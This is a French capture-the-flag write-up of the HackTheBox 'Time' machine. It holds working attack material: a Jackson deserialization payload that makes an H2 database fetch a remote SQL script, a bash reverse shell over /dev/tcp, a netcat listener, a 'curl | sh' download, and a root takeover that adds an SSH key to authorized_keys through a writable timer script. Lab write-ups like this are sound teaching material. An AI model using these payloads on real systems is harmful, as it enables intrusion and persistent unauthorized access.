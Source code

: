 ```yaml
---
title: " HackTheBox - [Time] "
description: Simple writeup of the Time box on Hackthebox.
---
```


   ![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)


![r](https://cdn.discordapp.com/attachments/519930659620257797/832739076687134800/68747470733a2f2f692e696d6775722e636f6d2f344d37495777502e676966.gif)

## 0x1 - Nmap


```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On peut apercevoir qu'il y a les ports suivants qui sont ouverts :

```sh
80/http
22/ssh
```
Et un Système d'exploitation ``Linux``.

Nous allons jeter un coup d'œil au port ``http/80`` pour voir ce qu'il y'a d'intéressant.


## 0x2 - Enumération web


Nous voyons un embellisseur et un validateur json en ligne avec 2 options, ``"Beatify"`` et ``"Validate! (Beta)"``.


![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)


J'ai intercepté les deux options via ``burpsuite`` et je viens de saisir un échantillon de données ``JSON`` dans le champ de saisie, sélectionnez l'option ``Beautify`` et cliquez sur le bouton ``PROCESS`` . Nous pouvons voir que cela fonctionne. 


Maintenant, essayez la même chose sur ``"Validate! (Beta)"`` options : 


![a](https://media.discordapp.net/attachments/490431433559506954/834012057694371850/unknown.png)


Vous avez une erreur!

```sh
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```




J'ai collé le message d'erreur dans la barre de recherche google : ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` Je suis tombé sur un article de ``stackoverflow``, expliquant l'erreur en question.
<a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">article here</a>



![ak](https://media.discordapp.net/attachments/490431433559506954/834008824389959690/unknown.png)



Après l'avoir lu, j'ai compris que l'erreur est liée à ``Jackson Polymorphic Deserialization expected START_ARRAY``.

On a la possibilité d'exécuter des scripts ``SQL`` sur la database H2.

Ceci est expliqué sur l'article : [article](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)

## 0x3 - Foothold


Maintenant, vous devez créer un fichier ``ak.sql`` et ajouter un reverse shell en bash pour qu'il me rappelle. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/tun0/1337 0>&1 &')
```


Maintenant démarrer un listenner avec netcat sur le port 1337 :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Amorcer un serveur python où est située votre fichier ak.sql :


```sh
sudo python -m SimpleHTTPServer
```


Et injecter votre payload sur l'option : ``"Validate!(Beta)"``.


```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/ak.sql'”}]
```

Et vous obtenez un reverse shell sur l'user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.10.214] 42212
```


Pour avoir un reverse shell stable type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```

Vous obtenez l'user flag :

```sh
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```


## 0x4 - Privilege Escalation


Maintenant nous allons upload ``Linpeas`` ( LinPEAS est un script qui recherche des chemins possibles pour augmenter les privilèges sous Linux ).

Installer linpeas : <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start un serveur python où se trouve votre fichier linpeas.sh et curl vers la machine cible.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

Nous pouvons voir que root a accédé à ce fichier: ``«/usr/bin/timer_backup.sh»``. Qui appartient à votre utilisateur et est accessible en écriture et writeable.


![ak](https://media.discordapp.net/attachments/490431433559506954/834009494190817280/unknown.png)


Vous devez créer votre clé ssh, ajouter notre clé publique SSH au fichier ``allowed_keys`` sur le serveur. Pour ce faire, suivez les commandes suivants :


```sh
ssh-keygen
( no passphrase ) 
Copier votre clée id_rsa.pub key 
Et effectuez cette command sur la machine cible. : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Maintenant vous faites un ``chmod 600`` pour avoirs les permissions puis vous vous connecter au port ssh avec la clée ``id_rsa`` : 


```sh
chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214
```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Nous avons root la machine avec succès.

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```

##  Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : [https://github.com/x0ld](https://github.com/x0ld)
- Twitter : @x0ld7
- Discord : x0ld#8106
- HTB : [https://www.hackthebox.eu/home/users/profile/491690](https://www.hackthebox.eu/home/users/profile/491690)


